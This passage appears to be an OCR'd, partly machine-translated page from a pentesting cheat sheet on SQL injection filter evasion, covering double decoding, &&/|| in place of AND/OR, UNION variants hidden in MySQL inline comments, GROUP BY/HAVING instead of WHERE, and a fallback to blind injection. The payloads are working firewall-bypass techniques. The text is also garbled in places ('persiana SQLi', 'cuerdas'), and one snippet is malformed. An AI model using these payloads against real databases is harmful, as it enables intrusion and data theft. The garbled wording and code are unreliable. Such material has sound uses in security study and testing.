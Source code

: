 > En este caso, si el filtro decodifica la solicitud la primera vez y aplica las reglas, no encontrará nada peligroso

> Luego, cuando la solicitud reciba la solicitud, decodificará el contenido y desencadenará la solicitud maliciosa

### Replaced Keywords

```bash
Booleans > AND, OR
- AND = &&
- OR  = ||
# only in MySQL and MSSQL
WHERE ID=x && 1=1
WHERE ID=x || 1=1

# If && and || are filtered, then u must use 'UNION'
```

```bash
UNION > Simple case
# We can use many variants to elude these kind of filters:

UNION(SELECT 'VALUES'...) &&
UNION ALL SELECT ...
UNION DISTINCT SELECT ...
/*!00000 UNION*//*!00000 SELECT*/ ...
```

WHen the **UNION** is filtered, Debemos cambiar a blind SQLi exploitation:

```bash
(SELECT id FROM users LIMIT 1)='5 ...
```

In Oracle:

→ https://docs.oracle.com/cd/B28359\_01/server.111/b28286/queries004.htm#SQLRF52323

* We can use **INTERSECT** or **MINUS** operators

WHERE, GROUP, LIMIT, HAVING:

* Palabras clave útiles para seleccionar una entrada específica

If the filter blocks **WHERE** keyword, podemos alternativamente nosotros usar **GROUP BY** + **HAVING**:

```bash
SELECT id FROM users GROUP BY id HAVING id='5 ...
```

If **GROUP BY** es filtrado, debemos volver a la persiana SQLi:

```bash
AND length((select first char)='a') //0/1 > true/false
```

Si **HAVING** está filtrado, en este caso debemos aprovechar funciones como **GROUP\_CONCAT**, funciones que manipulan las cuerdas, etc. Por supuesto, todo esto es ciego.
